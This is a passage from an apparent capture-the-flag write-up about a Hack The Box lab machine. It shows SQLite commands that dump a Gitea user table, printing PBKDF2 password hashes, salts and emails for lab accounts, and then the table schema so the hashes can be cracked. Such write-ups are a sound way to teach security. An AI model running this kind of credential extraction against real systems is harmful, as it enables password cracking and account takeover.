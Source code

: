 ```
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
login_source               user_open_id             
milestone                  user_redirect            
mirror                     user_setting             
notice                     version                  
notification               watch                    
oauth2_application         webauthn_credential      
oauth2_authorization_code  webhook
```

The user table rings the bell, and doing a select, the result seems promising:
```
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
3|hacker|hacker||hacker@hacker.ru|0|enabled|99a167607553790050528075f477f2c0a3bc1992c034933e5f2c4755868a52bd8f1d38b3e83221f7c8f4b1a5f7086db74c88|pbkdf2$50000$50|0|0|0||0|||c061de797ce93cf1a944bf327bb523b4|f940fdb3aabaf3e7017d0445b4aef04f|en-US||1741713638|1741714312|1741713638|0|-1|1|0|0|0|0|1|0|f8ae9423346171af497ea0424555ed87|hacker@hacker.ru|0|1|1|0|0|0|0|0|0|unified|gitea-auto|0
4|tetarone|tetarone||asdj@asd.com|0|enabled|5d3100cacd4e68a9b8745239f7b2f24ad3001a22aa151adc46c07eec4fe96ceb4c97ad84a8274b8eaf683362da1f76fa4b3d|pbkdf2$50000$50|0|0|0||0|||8338a4b2efdc4fb2b091fd3999217b0f|181e935cd5c960ae8a58772f299a0167|en-US||1741715326|1741715384|1741715326|0|-1|1|0|0|0|0|1|0|d9dedc2b60fec0daec74d40bdb158e18|asdj@asd.com|0|1|1|0|0|0|0|0|0||gitea-auto|0
5|0xtest|0xtest||0xtest@gmail.com|0|enabled|77afe868ff1b7d98ce9415fa2e7a75b61d8fbb658397662b0d252e831fc07798a48d3ef8d9439f6e41fded7a9ac631539e8a|pbkdf2$50000$50|0|0|0||0|||51f118dacf8da0c4d942148f06e2c9e8|ecd1b06a773e17c2a7cc5cd58d2cca07|en-US||1741715752|1741715754|1741715752|0|-1|1|0|0|0|0|1|0|2ce4d6809f757f3440a2ac944b3eb2f9|0xtest@gmail.com|0|0|0|0|0|0|0|0|0||gitea-auto|0
```

Let's do a .schema (like desc from sql) to see which columns are the important ones:
```
sqlite> .schema user
CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `full_name` TEXT NULL, `email` TEXT NOT NULL, `keep_email_private` INTEGER NULL, `email_notifications_preference` TEXT DEFAULT 'enabled' NOT NULL, `passwd` TEXT NOT NULL, `passwd_hash_algo` TEXT DEFAULT 'argon2' NOT NULL, `must_change_password` INTEGER DEFAULT 0 NOT NULL, `login_type` INTEGER NULL, `login_source` INTEGER DEFAULT 0 NOT NULL, `login_name` TEXT NULL, `type` INTEGER NULL, `location` TEXT NULL, `website` TEXT NULL, `rands` TEXT NULL, `salt` TEXT NULL, `language` TEXT NULL, `description` TEXT NULL, `created_unix` INTEGER NULL, `updated_unix` INTEGER NULL, `last_login_unix` INTEGER NULL, `last_repo_visibility` INTEGER NULL, `max_repo_creation` INTEGER DEFAULT -1 NOT NULL, `is_active` INTEGER NULL, `is_admin` INTEGER NULL, `is_restricted` INTEGER DEFAULT 0 NOT NULL, `allow_git_hook` INTEGER NULL, `allow_import_local` INTEGER NULL, `allow_create_organization` INTEGER DEFAULT 1 NULL, `prohibit_login` INTEGER DEFAULT 0 NOT NULL, `avatar` TEXT NOT NULL, `avatar_email` TEXT NOT NULL, `use_custom_avatar` INTEGER NULL, `num_followers` INTEGER NULL, `num_following` INTEGER DEFAULT 0 NOT NULL, `num_stars` INTEGER NULL, `num_repos` INTEGER NULL, `num_teams` INTEGER NULL, `num_members` INTEGER NULL, `visibility` INTEGER DEFAULT 0 NOT NULL, `repo_admin_change_team_access` INTEGER DEFAULT 0 NOT NULL, `diff_view_style` TEXT DEFAULT '' NOT NULL, `theme` TEXT DEFAULT '' NOT NULL, `keep_activity_private` INTEGER DEFAULT 0 NOT NULL);
CREATE UNIQUE INDEX `UQE_user_name` ON `user` (`name`);
CREATE UNIQUE INDEX `UQE_user_lower_name` ON `user` (`lower_name`);
CREATE INDEX `IDX_user_is_active` ON `user` (`is_active`);
CREATE INDEX `IDX_user_created_unix` ON `user` (`created_unix`);
CREATE INDEX `IDX_user_updated_unix` ON `user` (`updated_unix`);
CREATE INDEX `IDX_user_last_login_unix` ON `user` (`last_login_unix`);
```
